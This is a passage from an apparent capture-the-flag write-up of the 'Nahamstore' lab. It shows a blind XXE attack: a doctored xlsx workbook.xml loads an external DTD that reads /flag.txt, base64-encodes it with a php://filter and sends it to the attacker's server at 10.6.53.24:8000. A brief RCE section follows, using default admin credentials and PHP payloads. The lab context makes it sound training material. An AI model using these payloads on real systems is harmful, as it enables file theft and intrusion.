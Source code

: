 ```
```

The content of `extracted/xl/workbook.xml` was modified with the following payload:

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://10.6.53.24:8000/mal.dtd"> %xxe;]>
<workbook xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships">
```
The modified files were compressed back into a new archive:

```
zip -r ../../new3.xlsx *
```

A web server was set up to serve the `mal.dtd` file containing the following content:

```xml
<!ENTITY % file SYSTEM "file:///flag.txt">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'http://10.6.53.24:8000/%file;'>">
%eval;
%error;
```
But flag's file content might be breaking the xml structure or it's mandatory in chellange to use php base64 filter, so i use php filters to base64 encode the flag's file content.

Updated dtd file's content.

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/flag.txt">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'http://10.6.53.24:8000/%file;'>">
%eval;
%error;
```
Now seting up server again and uploading the file gave me flag.

![](/assets/Nahamstore/xxe.png)
                
## RCE

**Question : First RCE flag**


From an nmap scan, browsing the discovered **8000** port gives me an empty page. After that, I tried fuzzing the directory of the website and found the **http://nahamstore.thm:8000/admin/login** login page. After that, I entered **admin:admin** credentials, and that was a valid set of credentials. After entering the credentials, I was redirected to the admin endpoint where I could change the source code of the campaign. I tried executing commands with PHP payloads, and it worked. I retrieved the flag.
